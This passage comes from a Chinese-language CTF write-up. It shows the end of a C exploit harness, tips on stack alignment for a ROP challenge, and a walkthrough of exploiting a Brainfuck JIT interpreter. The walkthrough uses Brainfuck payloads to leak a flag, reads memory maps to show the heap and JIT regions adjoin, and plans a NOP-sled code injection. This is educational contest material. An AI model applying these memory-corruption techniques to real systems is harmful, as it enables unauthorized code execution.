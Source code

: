 ```c
    fputs("exploit failed\n", stderr);
    kill(pid, SIGINT);
  } else {
    fputs("exploit ok\n", stderr);
    forward(rfile, wfile);
  }

  if (waitpid(pid, NULL, 0) != pid)
    perror("waitpid");

  return 0;
}
```
~~（2020级信科的本科同学可能感觉这个框架似曾相识，所以不要问我为什么是C语言写的；这道题在出题前的定位本来是ICS课程Lab中一道不算分的Attack Lab X，但是出题出好了后发现难度爆炸了，就算不记分也太过分，所以最后决定把Attack Lab X换道裸题并且记了5分，别骂了别骂了……）~~

更新：如果遇到本地能过但服务器上不能过的情况，可以考虑以下两个问题。出题时没有想过在这里为难选手，但确实是会造成一些迷惑现象（不过我并没有看到选手writeup中有相关吐槽）。
 1. 进入函数`print_flag`时，不建议把字符串`"./.flag"`放在栈指针`%rsp`之下。由于调用`open@plt`的时候会首先进行动态链接的符号解析，这可能导致字符串被覆盖从而出现`no such file or directory`。
 2. 进入函数`print_flag`时，建议保证栈指针`%rsp`模16余8，这是System V ABI的[要求](https://stackoverflow.com/questions/49391001/why-does-the-x86-64-amd64-system-v-abi-mandate-a-16-byte-stack-alignment)~~（Attack Lab经典坑点，虽然那时不影响得分）~~，否则可能会导致之后在栈中进行`movaps`操作时由于内存地址对齐不正确引发Segmentation Fault，得不到任何输出，本地如果不能复现也很难猜到是哪里错了。

## 最强大脑

扔进Ghidra反编译，虽然这二进制文件移除了符号表并且代码量相比之前的题目算是比较大的了，但也还好，基本可以很快标出每个函数在干什么，大概实现了一个Brainfuck的解释器以及当循环执行16次后切入的JIT编译器。flag1被放在了初始数据区的末尾，那么只要循环打印所有数据即可搞到flag1：
```brainfuck
+[>.+]
```

程序打印出flag1后输出了一些乱码并且崩溃了，这很明显是因为JIT产生的代码没做边界检查。JIT题目一个好处是有现成的可写可执行的内存区域，所以接下来的思路就是利用这个缺少的边界检查在可执行内存区域内插入预先设计的代码片段从而读出flag2。这里JIT生成的代码放在了一段预先开好的`mmap`空间内，而程序的数据区域每次倍增，由`malloc`分配，所以它们看上去距离十分遥远；但只要试图分配的内存足够大，`malloc`也会采用`mmap`分配内存，而Linux内核对`mmap`的实现是自顶向下逐次分配的，也就意味着它们会直接相邻，例如：
```text
555555559000-55555557a000 rw-p 00000000 00:00 0                          [heap]
7ffff7c81000-7ffff7cc2000 rw-p 00000000 00:00 0
7ffff7cc2000-7ffff7dc2000 rwxp 00000000 00:00 0
7ffff7dc2000-7ffff7dc4000 rw-p 00000000 00:00 0
```
这里第二段是大小为0x40000（glibc实际多分配了一页，可能被用来存储元数据，所以总共大小是0x41000），紧随其后的第三段大小为0x100000，具有可执行权限，是JIT用来产生代码的区域。

有一个坑是我本地用了glibc-2.33，它在大小为0x40000才会使用`mmap`分配，而服务器使用的glibc-2.31在数据区大小为0x20000就会使用`mmap`分配（题目也下发了但我最开始没注意到）。所以产生了一些本地能过交上去过不了的奇妙现象。

具体实现上分为三步，第一步把数据区域大小扩大到0x20000，第二步在代码区写入构造好的代码，第三步触发代码执行。
  1. 把数据区域大小扩大到0x20000：这一步我手写了一段brainfuck代码以支持向右移动一个short型变量（即两个char型变量拼起来）内存储的距离（对边界条件支持得很差，不过能用就好）：
     ```brainfuck
     ++++[->++++<]>>>+++++[-<----->]<--<
     [>-[[>]+[<]>>-]+<[>[>]<+[<]>-]>[>]<<[-]>--]  // stop before flag1
     >>[>]>                                       // skip flag1, pos: 0x1001
     ++++[->++++<]>>---<
     [>-[[>]+[<]>>-]+<[>[>]<+[<]>-]>[>]<<[-]>--]  // pos: 0x1fff
     >++++++++[->++++<]>>--<
     [>-[[>]+[<]>>-]+<[>[>]<+[<]>-]>[>]<<[-]>--]  // pos: 0x3fff
     >++++[->++++<]>[->++++<]>>-----<
     [>-[[>]+[<]>>-]+<[>[>]<+[<]>-]>[>]<<[-]>--]  // pos: 0x7fff
     >>--[>+<--]>+>---<
     [>-[[>]+[<]>>-]+<[>[>]<+[<]>-]>[>]<<[-]>--]  // pos: 0xffff
     >>--
     [>-[[>]+[<]>>-]+<[>[>]<+[<]>-]>[>]<<[-]>--]  // pos: 0x1fe01
     ```
  2. 在代码区写入构造好的代码：现在的位置再向右移动`0x20000 - 0x1fe01 + 0x1000 = 0x11ff`（注意glibc会多分配0x1000字节）就可以到达代码区域，为了让填入的代码可以被正确执行，可以先写入足够多的`nop`指令，随后插入任意想要执行的代码，只要之后执行的JIT函数落在了这段`nop`区间，目标代码就会恰好被执行。